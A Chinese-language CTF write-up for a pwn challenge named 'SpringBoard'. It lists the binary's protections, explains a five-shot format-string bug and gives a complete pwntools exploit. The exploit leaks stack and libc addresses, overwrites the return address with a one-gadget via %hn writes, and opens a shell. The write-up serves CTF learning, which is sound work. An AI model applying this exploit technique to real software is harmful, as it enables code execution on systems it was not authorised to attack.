

# SpringBoard 

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO|Partial|
|Canary|off   |
|NX    |on    |
|PIE   |off   |
|strip |no    |
|libc  |2.23-0ubuntu11.3|

## 解题思路

> 感谢 *N0wayBack* 的脚本用以复现

简单的格式化字符串，可以执行5次漏洞，直接把函数返回地址写成oneGadget就可以

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './SpringBoard'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('', 9999)
    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc.so.6')

    # payload 1, leak libc and stack
    sh.sendlineafter(b'keyword', b'FLAG%6$pFLAG%9$p')
    sh.recvuntil(b'FLAG')
    stack = int(sh.recv(14), 16) - 0xd8
    success(GOLD_TEXT(f'Leak retStackAddr: {stack:#x}'))
    sh.recvuntil(b'FLAG')
    libcBase = int(sh.recv(14), 16) - 240 - libc.symbols['__libc_start_main']
    success(GOLD_TEXT(f'Leak libcBase: {libcBase:#x}'))

    # payload 2-5, write one gadget on ret addr
    oneGadget = 0xf1247
    ogg = libcBase + oneGadget
    sh.sendlineafter(b'keyword', f'%{stack & 0xffff}c%11$hn'.encode())
    sh.sendlineafter(b'keyword', f'%{ogg & 0xffff}c%37$hn'.encode())
    sh.sendlineafter(b'keyword', f'%{(stack + 2) & 0xffff}c%11$hn'.encode())
    sh.sendlineafter(b'keyword', f'%{(ogg >> 16) & 0xff}c%37$hhn'.encode())

    sh.clean()
    sh.interactive()
```

> 非预期秒了
>
> 

